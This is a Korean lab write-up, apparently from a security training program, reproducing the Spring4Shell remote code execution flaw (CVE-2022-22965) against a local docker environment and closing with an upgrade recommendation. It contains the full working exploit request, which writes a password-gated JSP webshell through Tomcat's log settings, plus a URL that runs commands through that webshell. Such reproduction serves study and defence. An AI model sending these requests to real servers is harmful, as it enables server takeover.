



# Spring Framework Data Binding Remote Code Execution on JDK 9+ (CVE-2022-22965)

> 화이트햇 스쿨 3기 - [이호영 (@lhywk)](https://github.com/lhywk)

<br/>

### 요약

- `Spring Framework`의 `Data Binding` 기능을 악용하면 RCE가 가능함  
- 특정 HTTP 파라미터를 조작하여 공격자가 임의의 `.jsp` 웹쉘을 서버에 업로드할 수 있음  
- 업로드된 웹쉘을 통해 서버 내부 명령어 실행 및 시스템 권한 탈취 시도가 가능함  
- 해당 취약점은 `Spring Framework 5.3.17` 및 `JDK 9+` 환경에서 발생

<br/>

### 환경 구성

- `docker-compose up -d` 명령어로 테스트 환경 실행  
- `http://localhost:8080/` 접속하여 Spring 앱 정상 동작 확인

<br/>

### 취약점 재현

Apache Tomcat에서 로깅 구성을 변경하려면 다음 요청을 보낸다.
```
GET /?class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22j%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat= HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
suffix: %>//
c1: Runtime
c2: <%
DNT: 1
```


그런 다음 JSP 웹쉘을 사용하여 임의의 명령을 실행할 수 있다.

```
http://localhost:8080/tomcatwar.jsp?pwd=j&cmd=id
```

<br/>


### 결과




JSP 웹셸이 계속 커지는 것을 방지하기 위해 class.module.classLoader.resources.context.parent.pipeline.first.pattern 속성을 초기화
```
GET /?class.module.classLoader.resources.context.parent.pipeline.first.pattern= HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
```

<br/>


### 정리

해당 취약점은 Spring Framework의 데이터 바인딩 기능을 악용해 RCE가 가능하게 한다. 해당 취약점은 시스템 권한 탈취로 이어질 수 있어 매우 위험하다.
가장 확실한 대응책은 최신 버전인 Srping 5.3.18 이상으로 업데이트 하는 것이다.
